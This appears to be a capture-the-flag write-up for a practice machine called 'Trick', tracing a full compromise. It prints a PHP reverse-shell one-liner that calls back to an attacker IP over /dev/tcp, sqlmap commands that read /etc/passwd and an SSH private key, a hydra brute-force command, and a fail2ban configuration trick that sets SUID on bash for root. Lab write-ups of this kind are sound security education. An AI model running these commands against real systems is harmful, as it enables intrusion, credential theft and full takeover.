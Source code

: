 # Trick


## Enumeration

[Initial scans](scans/initial_scan.nmap) show that SSH, SMTP, DNS (Bind9), and Nginx are all running on the target.  The website hosted on Nginx appears to be nothing more than a standard "coming soon" page that presents no avenues for gaining a foothold.  An exhaustive scan with OWASP Zap also turned up nothing.

![Trick - Coming Soon](evidence/screenshots/nginx-coming_soon.png)

Attempting to enumerate some valid usernames via SMTP and Metasploit's *auxiliary/scanners/smtp/smtp_user_enum* module likewise turned up nothing useful.

According to the initial scan, the target uses the default *debian.localdomain* domain, but querying the DNS service for that domain gets no results.  There's no indication that it's being used, but let's try adding an entry for the domain *trick.htb* to our local /etc/hosts file, anyway.  That done, let's try querying the DNS service again.  This time, we'll attempt a zone transfer:

![zone transfer](evidence/screenshots/dns-zone_transfer.png)

Success!  We now have another path to follow in the form of the *preprod-payroll.trick.htb* subdomain.  Let's add this to our local /etc/hosts file and see what we've got.

![preprod-payroll](evidence/screenshots/preprod-payroll.png)

preprod-payroll.trick.htb leads us to a new page that includes a login.  We don't have any valid credentials, or even just a username, to log in here; so let's try a couple of simple tricks.  First, let's fire up Burp and send a login request, changing the *username* and *password* variables to arrays in case the login mechanism is using PHP's `strcmp()` function:

![strcmp login attempt](evidence/screenshots/burp-strcmp_login.png)

Unfortunately, this didn't get us in.  It did, however, show us that the application leaks potentially useful information in error messages.

Directory busting with ffuf shows a directory called *database*, but we just get a 403 error when attempting to access it.  [Fuzzing for files with the .php extension](scans/ffuf-preprod-payroll.md) turns up a lot, including a file called *users.php* that we can access without having to log in.  This page tells us that there's an admin user called *Enemigosss*.  Using hydra to try and brute force the password did not work, though.

```
hydra -l Enemigosss -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt preprod-payroll.trick.htb http-post-form '/login.php:username=^USER^&password=^PASS^:Username or password is incorrect.'
```

Looking at the source code for users.php, we find the javascript that is used for adding/editing users:

![source - users.php](evidence/screenshots/source-users.png)

This tells us that *manage_user.php* is the page that actually handles these functions; so we check out that source code, as well:

![source -manager_user.php](evidence/screenshots/source-manage_user.png)

First, we try adding a new admin user:

```
curl -X POST 'http://preprod-payroll.trick.htb/ajax.php?action=save_user' -d 'id=2&name=test&username=test&password=chang3m3&type=1' -v
```

However, despite getting a response of "1" (supposedly indicating success), the new user does not show up on the users.php page and attempts to log in with it fail.  So, next, we try editing the existing *Enemigosss* admin user by pointing our browser to http://preprod-payroll.trick.htb/manage_user.php?id=1.

![edit admin user](evidence/screenshots/edit_admin_user.png)

We see this does, indeed, load Enemigosss' user info.  And, if we have a look at the source code...

![admin credentials](evidence/screenshots/admin_creds.png)

Boom!  We got the admin password.

Using these credentials, we are able to successfully log in:

![admin logged in](evidence/screenshots/admin_logged_in.png)

It doesn't look like there are any easy LFI vulnerabilities available.  But the edit user function (manage_user.php?id=1) looks like it might be vulnerable to SQL injection.  So let's do a little testing with SQLMap.

Fire up Burp and and click the "Edit" action for user Enemigosss.  Right-click the intercepted request in Burp and select "Copy to file."  Save the request as a TXT file.  Now, let's try some basic enumeration:

```
sqlmap -r sqlmap_request.txt --banner --current-user --current-db --is-dba
```
![sqlmap enum](evidence/screenshots/sqlmap-enum.png)

The output proves that the target app is, indeed, vulnerable to SQL injection attacks.  


## Initial Foothold

Unfortunately, the current DB user (remo@localhost) isn't an admin, making it less likely that we'll be able to read local files on the target.  But, let's try reading /etc/passwd anyway:

```
sqlmap -r sqlmap_request.txt --file-read "/etc/passwd"
```
![sqlmap read passwd](evidence/screenshots/sqlmap-read_passwd.png)

Surprisingly, it worked and the /etc/passwd file was saved to our machine.

![/etc/passwd](evidence/screenshots/etc_passwd.png)

We see here that there is a user called *michael* on the target.  Let's see if he's got a private key that we can read:

```
sqlmap -r sqlmap_request.txt --file-read "/home/michael/.ssh/id_rsa"
```

Unfortunately, that didn't work.  Next, let's try and write a reverse shell to the target.

1. Get a one-liner from `msfvenom` and save it as *shell.php*:

```php
<?php system('bash -c "0<&157-;exec 157<>/dev/tcp/10.10.14.67/4444;sh <&157 >&157 2>&157"'); ?>
```

2. Use SQLMap to try and write the file to the target:

```
sqlmap -r sqlmap_request.txt --file-write "shell.php" --file-dest "/tmp/shell.php"
```
(*NOTE: Attempting to write the file to /var/www/html did not work.*)

SQLMap output an error that said: *the remote file '/tmp/shell.php' is larger (103 B) than the local file 'shell.php' (96B)*.  But the write seems to have worked.

3. Start a netcat listener: `nc -lnvp 4444 -s 10.10.14.67`
4. Try taking advantage of a possible LFI vulnerability in the way the target app loads pages by pointing our browser to http://preprod-payroll.trick.htb/index.php?page=/./tmp/shell

![reverse shell](evidence/screenshots/reverse_shell.png)

It worked!  Let's give our shell a bit of an upgrade:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Checking out the db_connect.php file, we find another set of credentials for the *remo* user.

As indicated by our previous attempt to read michael's private key, it is only readable by the owner.  However, it looks like somone got here before us and left a little present: the results of a LinPEAS scan, run as the michael user, in /tmp/linpeas_report.  In this report we find michael's private key:

![private key - michael](evidence/screenshots/private_key-michael.png)

Using this key, we are able to SSH in to the target as michael and grab the user flag:

![initial foothold](evidence/screenshots/initial_foothold.png)


## Privilege Escalation

As we saw earlier, michael is a member of the *security* group.  Running `find / -group security 2> /dev/null` shows that the /etc/fail2ban/action.d/ directory is owned and writable by the security group.  `sudo -l` shows that michael can run `/etc/init.d/fail2ban restart` as root without a password.

In /etc/fail2ban/action.d/ there are many different .conf files.  If we look at *iptables-multiport.conf*, we can see there's a section called *actionstart*:

![fail2ban - action start](evidence/screenshots/fail2ban-iptables_multiport.png)

The command written here will execute when `fail2ban` starts.  Since we can restart `fail2ban`, our goal is to set *actionstart* to run the following command:

```bash
chmod +s /bin/bash
```

Unfortunately, all the .conf files in /etc/fail2ban/action.d/ are owned by root:root and we don't have any write privileges.  But, since the action.d/ directory, itself, is owned and writable by the security group -- of which michael is a member -- we CAN create new files.  So let's run the following sequence of commands to replace iptables-multiport.conf with a file we can write to:

```bash
cp iptables-multiport.conf iptables-multiport.conf.new; mv iptables-multiport.conf iptables-multiport.conf.bak; mv iptables-multiport.conf.new iptables-multiport.conf
```

And we can now write to the iptables-multiport.conf file:

![new iptables-multiport.conf](evidence/screenshots/fail2ban-new_iptables.png)

So, let's write our command in the *actionstart* section and restart `fail2ban`:

![fail2ban - restart](evidence/screenshots/fail2ban-restart.png)

As we can see, `/bin/bash` now has the SUID bit set.  Now, if we run `/bin/bash -p`, we should get a root shell:

![root privs](evidence/screenshots/root_privs.png)

Success.  Now let's grab the root flag.

